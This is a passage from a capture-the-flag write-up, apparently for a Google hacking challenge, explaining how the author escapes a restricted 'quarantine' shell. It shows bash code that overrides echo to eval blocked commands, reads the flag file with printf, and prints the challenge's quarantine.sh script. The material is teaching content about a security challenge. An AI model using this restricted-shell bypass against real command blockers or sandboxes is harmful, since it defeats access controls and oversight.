 I don't know, but that doesn't explain the prints.

Without much idea, I tested different ways to define functions, trying to execute commands within - mostly those who can read the flag file directly (like `function echo { eval "cat /flag" ; }`).

Then it dawned on me - what I'm writing into the shell actually trigger the shell blocker script that checks if my command is valid! It detects an invalid commands and tries to print an error using `echo`!

The two prints happened because it probably looks something like this:

```sh
echo "command blocked: ${my_command}"
echo "check completions to see available commands"
```

Okay, now that I know that, I can probably make a smart override to the `echo` function - I control the `my_command` passed into the `echo` call, so I can abuse it to pass a blocked command that will  be executed.

To do so, I need to strip the `"command blocked: "` string and then simply eval the "blocked" command:

```bash
function echo {
	cmd="${@#command blocked: }"
	eval "$cmd"
}
```

During testing, I discovered there is no `cat` or similar tools to read files on the system. So I needed to be a bit creative - I know `printf` exists, and so the command `printf '%s\n' "$(</flag)"` should read the file `/flag` and print it out.

```
$ printf '%s\n' "$(</flag)"
https://h4ck1ng.google/solve/...
bash: check: No such file or directory
```

Success!

However I was curious to see how the quarantine is implemented. I saw there's a `/quarantine.sh` file so I printed it too:

```bash
$ printf '%s\n' "$(</quarantine.sh)"
# Source our helper functions.
. /dnr_helpers.sh

# Print a banner
echo -e '\033[0;31m
   ___                                    _    _                ____   _            _  _
  / _ \  _   _   __ _  _ __  __ _  _ __  | |_ (_) _ __    ___  / ___| | |__    ___ | || |
 | | | || | | | / _` || `__|/ _` || `_ \ | __|| || `_ \  / _ \ \___ \ | `_ \  / _ \| || |
 | |_| || |_| || (_| || |  | (_| || | | || |_ | || | | ||  __/  ___) || | | ||  __/| || |
  \__\_\ \__,_| \__,_||_|   \__,_||_| |_| \__||_||_| |_| \___| |____/ |_| |_| \___||_||_|
\033[0m'

echo 'The D&R team has detected some suspicious activity on your account and has quarantined you while they investigate'

# Show days since lockdown started
scratches_on_wall="$((($(date +%s) - $(date --date="200311" +%s))/(60*60*24)))"
echo "${scratches_on_wall} days stuck at ~"

# Quarantine the user.
quarantine
bash: check: No such file or directory
```
